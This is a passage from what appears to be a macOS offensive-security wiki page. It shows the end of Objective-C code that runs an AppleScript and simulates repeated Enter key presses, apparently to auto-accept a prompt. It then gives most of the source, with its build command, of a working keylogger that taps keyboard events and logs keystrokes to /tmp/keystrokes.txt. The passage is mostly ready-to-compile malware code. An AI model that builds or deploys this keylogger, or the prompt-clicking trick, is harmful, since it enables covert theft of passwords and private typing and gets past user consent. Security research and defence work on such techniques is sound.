 ```objectivec
    @autoreleasepool {
        dispatch_async(dispatch_get_global_queue(DISPATCH_QUEUE_PRIORITY_DEFAULT, 0), ^{
            RunAppleScript();
        });

        // Simulate pressing the Enter key every 0.1 seconds
        NSLog(@"Starting key presses");
        for (int i = 0; i < 10; ++i) {
            SimulateKeyPress((CGKeyCode)36); // Key code for Enter
            usleep(100000); // 0.1 seconds
        }
    }
    return 0;
}
```
{% endtab %}

{% tab title="Keylogger" %}
Store the pressed keys in **`/tmp/keystrokes.txt`**

```objectivec
#import <Foundation/Foundation.h>
#import <ApplicationServices/ApplicationServices.h>
#import <Carbon/Carbon.h>

// clang -framework Foundation -framework ApplicationServices -framework Carbon -o KeyboardMonitor KeyboardMonitor.m

NSString *const kKeystrokesLogPath = @"/tmp/keystrokes.txt";

void AppendStringToFile(NSString *str, NSString *filePath) {
    NSFileHandle *fileHandle = [NSFileHandle fileHandleForWritingAtPath:filePath];
    if (fileHandle) {
        [fileHandle seekToEndOfFile];
        [fileHandle writeData:[str dataUsingEncoding:NSUTF8StringEncoding]];
        [fileHandle closeFile];
    } else {
        // If the file does not exist, create it
        [str writeToFile:filePath atomically:YES encoding:NSUTF8StringEncoding error:nil];
    }
}

CGEventRef KeyboardEventCallback(CGEventTapProxy proxy, CGEventType type, CGEventRef event, void *refcon) {
    if (type == kCGEventKeyDown) {
        CGKeyCode keyCode = (CGKeyCode)CGEventGetIntegerValueField(event, kCGKeyboardEventKeycode);

        NSString *keyString = nil;
        // First, handle special non-printable keys
        switch (keyCode) {
            case kVK_Return: keyString = @"<Return>"; break;
            case kVK_Tab: keyString = @"<Tab>"; break;
            case kVK_Space: keyString = @"<Space>"; break;
            case kVK_Delete: keyString = @"<Delete>"; break;
            case kVK_Escape: keyString = @"<Escape>"; break;
            case kVK_Command: keyString = @"<Command>"; break;
            case kVK_Shift: keyString = @"<Shift>"; break;
            case kVK_CapsLock: keyString = @"<CapsLock>"; break;
            case kVK_Option: keyString = @"<Option>"; break;
            case kVK_Control: keyString = @"<Control>"; break;
            case kVK_RightControl: keyString = @"<Control>"; break;
            case kVK_RightShift: keyString = @"<Shift>"; break;
            case kVK_RightOption: keyString = @"<Option>"; break;
            case kVK_Function: keyString = @"<Function>"; break;
```